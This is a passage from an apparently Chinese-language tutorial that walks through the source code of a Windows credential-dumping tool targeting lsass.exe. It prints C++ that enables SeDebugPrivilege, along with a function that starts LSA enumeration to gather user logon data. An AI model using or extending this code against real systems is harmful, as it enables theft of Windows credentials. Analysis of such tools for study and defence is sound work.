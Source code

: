 然后通过 `GetCurrentProcess()` 函数获取当前进程，并用 `OpenProcessToken()` 函数打开当前进程的句柄，并将其赋给 `hToken`。

## 1.1 提升进程令牌特权

由于 lsass.exe 是系统进程，因此工具在调试 lsass.exe 内存之前需要为当前进程开启 SeDebugPrivilege 特权。因此需要将当前进程的句柄 `hToken` 传入自定义函数 `EnableDebugPrivilege()`，该函数定义如下，其内部通过调用 `AdjustTokenPrivileges()` 为当前进程提升令牌特权。

```c++
BOOL EnableDebugPrivilege(HANDLE hToken, LPCWSTR lpName)
{
	BOOL status = FALSE;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges;
	
	// Get the LUID value of the SE_DEBUG_NAME (SeDebugPrivilege) privilege for the local system
	if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
	{
		wprintf(L"[-] LookupPrivilegeValue Error [%u].\n", GetLastError());
		return status;
	}

	// Set escalation information
	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	// Elevate Process Token Access
	if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
	{
		wprintf(L"[-] AdjustTokenPrivileges Error [%u].\n", GetLastError());
		return status;
	}
	else
	{
		status = TRUE;
	}
	return status;
}
```

## 1.2 获取用户登录信息

最后，主函数将调用自定义函数 `GetLogonData()` 来获取用户登录信息，该函数定义如下，其内部调用自定义函数 `EnumerateLsa()`，用于启动复杂的 LSA 枚举。

```c++
BOOL GetLogonData()
{
	BOOL status = FALSE;
	wprintf(L">>>>=================================================================\n");
	if (status = EnumerateLSA())
	{
		return status;
	}
}
```
